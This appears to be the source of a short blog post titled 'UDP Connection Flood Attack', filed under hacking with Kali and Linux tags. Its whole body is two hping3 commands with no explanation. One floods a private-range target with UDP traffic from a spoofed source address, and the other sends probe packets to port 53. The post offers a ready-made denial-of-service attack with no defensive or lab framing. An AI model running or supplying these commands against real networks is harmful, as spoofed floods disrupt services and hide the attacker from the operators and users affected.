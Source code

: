 ```yaml
---
layout: post
title: UDP Connection Flood Attack
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: UDP FLOOD
fullview: true
comments: true
---
```


{% highlight yaml %}
$hping3 -q -n -a 10.0.0.1 --udp -s 53 --keep -p 68 --flood 192.168.xx.xx
$hping3 -i u1000 -c 4 -p -2 53 192.168.xx.xx
{% endhighlight %}
